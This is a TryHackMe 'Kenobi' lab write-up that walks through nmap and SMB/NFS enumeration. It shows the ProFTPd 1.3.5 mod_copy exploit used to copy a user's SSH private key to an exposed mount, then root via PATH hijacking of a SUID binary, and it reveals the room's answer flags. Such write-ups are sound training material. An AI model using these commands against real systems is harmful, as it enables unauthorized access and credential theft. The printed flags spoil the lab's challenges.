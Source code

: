 ![Kenobi Banner](https://i.imgur.com/zWNY3JF.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/kenobi/Kenobi_Cover.png" alt="Kenobi Logo">
</p>

# Kenobi

This guide contains the answer and steps necessary to get to them for the [Kenobi](https://tryhackme.com/room/kenobi) room.

## Table of contents

- [Deploy the vulnerable machine](#deploy-the-vulnerable-machine)
- [Enumerating Samba for shares](#enumerating-samba-for-shares)
- [Gain initial access with ProFtpd](#gain-initial-access-with-proftpd)
- [Privilege Escalation with Path Variable Manipulation](#privilege-escalation-with-path-variable-manipulation)

### Deploy the vulnerable machine

1. Make sure you're connected to our network and deploy the machine

2. Scan the machine with nmap, how many ports are open?

   Using nmap we can scan for open ports using:

   ```console
   sudo nmap -sS 10.10.208.77
   ```

   ![Deploy Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Deploy_Nmap.png)

   ><details><summary>Click for answer</summary>7</details>

### Enumerating Samba for shares

1. Using nmap we can enumerate a machine for SMB shares. Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares! `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP` SMB has two ports, 445 and 139. Using the nmap command above, how many shares have been found?

   Using the following command we can find all available shares:

   ```console
   nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.208.77
   ```

   ![Enumerate Shares](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Enumerate_Shares.png)

   ><details><summary>Click for answer</summary>3</details>

2. On most distributions of Linux smbclient is already installed. Lets inspect one of the shares. `smbclient //MACHINE_IP/anonymous` Using your machine, connect to the machines network share. Once you're connected, list the files on the share. What is the file can you see?

   We can connect to the share using `smbclient //10.10.208.77/anonymous`.

   Then we list the files using `dir`.

   ![Enumerate Files](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Enumerate_Files.png)

   We can download this file using `smbget`.

   ```console
   smbget -R smb://10.10.208.77/anonymous
   ```

   ![Enumerate Smbget](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Enumerate_Smbget.png)

   ><details><summary>Click for answer</summary>log.txt</details>

3. You can recursively download the SMB share too. Submit the username and password as nothing. `smbget -R smb://MACHINE_IP/anonymous` Open the file on the share. There is a few interesting things found. Information generated for Kenobi when generating an SSH key for the user Information about the Pro FTPD server. What port is FTP running on?

   In our previous nmap scan we can find the port ftp is running on.

   ><details><summary>Click for answer</summary>21</details>

4. Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this. `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP` What mount can we see?

   Using the following command and script we can find out which mount is accessible.

   ```console
   nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.208.77
   ```

   ![Enumerate Mount](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Enumerate_Mount.png)

   ><details><summary>Click for answer</summary>/var</details>

### Gain initial access with ProFtpd

1. Lets get the version of ProFtpd. Use netcat to connect to the machine on theFTPport. What is the version?

   We can either get the version by scanning with nmap (using -sV) or netcat.

   ```console
   nmap 10.10.208.77 -p21 -sV
   ```

   ```console
   nc 10.10.208.77 21
   ```

   ![Proftp Version](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Version.png)

   ><details><summary>Click for answer</summary>1.3.5</details>

2. We can use searchsploit to find exploits for a particular software version. Searchsploit is basically just a command line search tool for exploit-db.com. How many exploits are there for the ProFTPd running?

   Using the following command we can find any exploits for this particular version.

   ```console
   searchsploit proftp 1.3.5
   ```

   ![Proftp Exploits](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Exploits.png)

   ><details><summary>Click for answer</summary>4</details>

3. You should have found an exploit from ProFtpd'smod_copy module.The mod_copy module implementsSITE CPFRandSITE CPTOcommands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from anypart of the filesystem to a chosen destination.We know that theFTPservice is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

4. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands. We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

   Running `site help` when connected to the FTP server we can indeed see that the cpfr and cpto commands are available. We can use these to move the id_rsa ssh key to the /var folder.

   ```console
   site cpfr /home/kenobi/.ssh/id_rsa
   site cpto /var/tmp/id_rsa
   ```

   ![Proftp Transfer](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Transfer.png)

5. Lets mount the /var/tmp directory to our machine `mkdir /mnt/kenobiNFS`. `mount MACHINE_IP:/var /mnt/kenobiNFS` `ls -la /mnt/kenobiNFS` We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.What is Kenobi's user flag (/home/kenobi/user.txt)?

   After mounting the /var share using:

   ```console
   sudo mount 10.10.208.77:/var /mnt/KenobiNFS
   ```

   we now have access to it from our machine. And we can cleary see the moved ssh key inside.

   ![Proftp Mounted](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Mounted.png)

   Now lets move the file to our main folder and change the permissions to strict (otherwise ssh won't allow us to use it).

   ```console
    cp /mnt/KenobiNFS/tmp/id_rsa .
    chmod 600 id_rsa
    ```

    ![Proftp Copy](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Copy.png)

    Now we can use the key to ssh into the machine using:

    ```console
    ssh -i id_rsa kenobi@10.10.208.77
    ```

    ![Proftp Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Flag.png)

   ><details><summary>Click for answer</summary>d0b0f3f53b6caa532a83915e19224899</details>

### Privilege Escalation with Path Variable Manipulation

1. SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.To search the a system for these type of files run the following: `find / -perm -u=s -type f 2>/dev/null`. What file looks particularly out of the ordinary?

   After running `find / -perm -u=s -type f 2>/dev/null` we can look through the returned files for any that may stand out.

   ![Escalation Suid](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Escalation_Suid.png)

   ><details><summary>Click for answer</summary>/usr/bin/menu</details>

2. Run the binary, how many options appear?

   Run the binary with `menu`.

   ![Escalation Menu](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Escalation_Menu.png)

   ><details><summary>Click for answer</summary>3</details>

3. Strings is a command onLinuxthat looks for human readable strings on a binary. This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname). As this file runs as the root users privileges, we can manipulate our path gain a root shell. We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

4. What is the root flag (/root/root.txt)?

   First we must create a version of curl containing a shell and give it the right permissions.

   ```console
   echo /bin/sh > /tmp/curl

   chmod 777 /tmp/curl
   ```

   Next we must add the `/tmp` folder to the PATH variable and we can run the program.

   ```console
   export PATH=/tmp:$PATH
   
   /usr/bin/menu
   ```

   Select option 1 to get a shell. Now we can get our flag.

   ![Escalation Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Escalation_Shell.png)

   ><details><summary>Click for answer</summary>177b3cd8562289f37382721c28381f02</details>

